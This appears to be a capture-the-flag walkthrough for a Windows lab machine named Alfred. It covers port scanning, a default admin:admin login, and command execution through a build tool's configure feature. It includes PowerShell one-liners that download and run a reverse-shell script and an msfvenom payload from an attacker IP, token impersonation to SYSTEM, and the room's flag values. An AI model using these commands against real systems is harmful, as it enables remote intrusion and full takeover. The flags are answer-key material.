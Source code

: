 # ALFRED

## BASIC INFO
```
export IP=10.10.8.255

80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-03T02:33:53+00:00; -40s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```
## INITIAL ACCESS

> - **How man ports are open?**
>> 3

> - **What is the username and password for the log in panel (in the format username:password)**
>> admin:admin\
The login page is located at port 8080

> - **Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature use this command to get th reverse shell on your machine and run it. `powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`.**
>> No answer needed

The feature is under view, project, configure tab.

> - **What is the user.txt flag?**
>> 79007a09481963edf2e1321abd9ae2a0

## SWITCHING SHELLS
Creating payload with msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.8.177 LPORT=9001 -f exe -o shell.exe
```

> - **What is the final size of the exe payload that you generated?**
>> 70832


```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.8.177:8000/shell.exe','shell.exe')"

Then just run the command
shell
```

## PRIVILEGE ESCALATION

> - **To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?**
>> NT AUTHORITY\SYSTEM

> - **read the root.txt file at C:\Windows\System32\config**
>> dff0f748678f280250f25a45b8046b4a

_**Remember to migrate to spoolsv.exe or services.exe first or else you can't find the flag**_

![badges](../../../badges/dianchia.png)
